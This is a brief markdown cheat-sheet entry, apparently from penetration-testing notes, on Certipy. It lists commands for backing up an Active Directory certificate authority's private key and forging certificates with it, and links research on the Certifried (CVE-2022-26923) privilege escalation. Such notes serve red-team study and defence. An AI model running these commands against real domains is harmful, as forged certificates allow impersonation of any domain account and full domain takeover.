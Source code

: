# Certipy

```powershell
Get key:
certipy ca -backup -ca 'ali3nw3rx-CA'

Forge:
certipy forge -ca-pfx cth.pfx [cert options]

```

{% embed url="https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4" %}
